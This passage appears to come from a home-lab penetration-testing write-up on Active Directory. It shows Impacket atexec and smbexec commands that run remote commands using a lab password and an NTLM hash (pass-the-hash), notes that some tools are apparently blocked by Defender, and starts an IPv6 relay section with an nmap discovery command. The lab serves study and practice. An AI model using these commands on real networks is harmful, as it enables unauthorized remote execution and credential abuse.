 attempted to use wmiexec instead, with no success. However after some trial and error atexec seemed like the one to go with. Unsure as to the reason why this one worked, but there seems to be some research suggesting the prior ones may be mitigated by Defender.  

👍Using atexec with domain/user and password

            impacket-atexec MARVEL/fcastle:'Password1'@192.168.64.139 "whoami"
![image](https://github.com/user-attachments/assets/3bdef2d4-e172-4b36-aaa0-c0927494f0d8)  

👍Using atexec with administrator and hash

            impacket-atexec administrator@192.168.64.139 -hashes aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc "whoami"
![image](https://github.com/user-attachments/assets/36981884-3a94-4d8e-a8e9-d0c4508988ed)

👍Using smbexec with domain/user and password

            impacket-smbexec MARVEL/fcastle:Password1@192.168.64.139  
![image](https://github.com/user-attachments/assets/3852e0ef-d03a-4df7-a508-aed4d5e33ff3)

👍Using smbexec with administrator and hash

            /home/kali# impacket-smbexec administrator@192.168.64.139 -hashes aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc
![image](https://github.com/user-attachments/assets/6d13d42c-9e78-472c-8164-52fe8f118a14)

### 🟣 Findings  
After some trial and error, not all 'execs' will work and this is normal in the real world. Through trial and error in this case the two that was discovered to work for both 'domain/user + password' and 'administrator + password' was **impackets**:
* atexec
* smbexec

### Other Remote command execution tools in Windows environments to attempt if one does not work.

1. Psexec
2. Wmiexec
3. SMBexec
4. Atexec

---

## 🚩 IPv6 Attacks - Another form of relaying  

IPv6 can be used to conduct authentication via DNS to the Domain Controller via LDAP or SMB.  

To identify if IPv6 exsists on a network or endpoint the following nmap command can be used:  
**General Discovery** 
                        
            nmap -6 -sn <IPv6_range>

**Once you find active hosts, scan for attack vectors using:**
